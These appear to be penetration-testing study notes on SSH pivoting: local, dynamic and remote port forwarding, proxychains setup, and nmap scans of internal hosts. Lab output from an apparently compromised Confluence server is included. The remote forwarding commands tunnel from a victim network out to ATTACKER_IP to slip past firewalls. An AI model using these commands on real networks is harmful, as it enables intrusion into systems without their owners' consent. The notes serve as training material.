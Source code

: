 
## Global note: make sure a full TTY is enabled before using `OpenSSH`.
### Local port forwarding

``` 
ssh -N -L 0.0.0.0:4455:172.16.217.217:445 database_admin@10.4.217.215           // on 192.168.217.63
// Open port 4455 on 192.168.217.63, sending the packets through 172.16.217.217 to 10.4.217.215:445.
```
`-N`: spawn no shell, give no output.



### Dynamic port forwarding
When dynamic port forwarding, all ports on the target machine are forwarded. To achieve this, a SOCKS5 proxy to a specific IP is used:

```
ssh -N -D 0.0.0.0:9999 USERNAME@HIDDEN_MACHINE           // Run from the remote machine
// change "socks5 127.0.0.1 1080" to "socks5 REMOTE_IP 9999" in /etc/proxychains.conf locally
proxychains nmap -n -sT --top-port=10 HIDDEN_MACHINE_REACHABLE_IP        // make sure to use '-n' and '-sT'
```
Note: make sure to use `proxychains` before every network command.
###### Example output
```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.217.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.217.215 (10.4.217.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.217.215's password: 


┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #tail /etc/proxychains.conf 
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks5 127.0.0.1 5000
#socks5  127.0.0.1 1080
socks5  192.168.217.63 9999
// sets the target machine (running the port forwarder) and IP.

┌─[✗]─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #proxychains nmap -sT -n --top-port=10 -Pn 172.16.217.217
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-06 00:57 CEST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Host is up (10s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   closed ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   closed http
110/tcp  closed pop3
139/tcp  open   netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 105.67 seconds


```



### Remote port forwarding
When there is a firewall involved, nearly any inbound connections can be blocked. Usually, outbound connections are allowed though.
Remote port forwards work nearly the same as Local port forwards, but the SSH connection has the remote host as the "sender", while taking the attacking machine as the "reciever". This way, the traffic will be marked as outbound to the firewall.
This system works very similarly to a reverse shell, and is usually implemented when the attacker found credentials for a hidden host, but cannot connect to it because of the firewall.

```
ssh -N -R 127.0.0.1:ATTACKER_LOCAL_PORT:HIDDEN_TARGET_IP:HIDDEN_TARGET_PORT ATTACKER_USERNAME@ATTACKER_IP
```

Note: make sure the local SSH server is open and `PasswordAuthentication` is set to `yes` in `/etc/ssh/sshd_config`, and `OpenSSH` is started using `systemctl start ssh` or `systemctl restart ssh`.


```
ssh -N -R 127.0.0.1:5555:10.4.171.215:4444 edu@192.168.45.194
// Opens port 5555 locally on the attacking machine, connecting to 10.4.171.215:4444
```


### Dynamic remote port forwarding
```
ssh -N -R ATTACKER_LOCAL_PORT ATTACKER_USER@ATTACKER_IP           // Run from the remote machine
// change "socks5 REMOTE_IP PORT" to "socks5 LOCAL_IP LOCAL_PORT" in /etc/proxychains.conf locally
proxychains nmap -n -sT --top-port=10 HIDDEN_MACHINE_REACHABLE_IP        // make sure to use '-n' and '-sT'
```


##### Example output
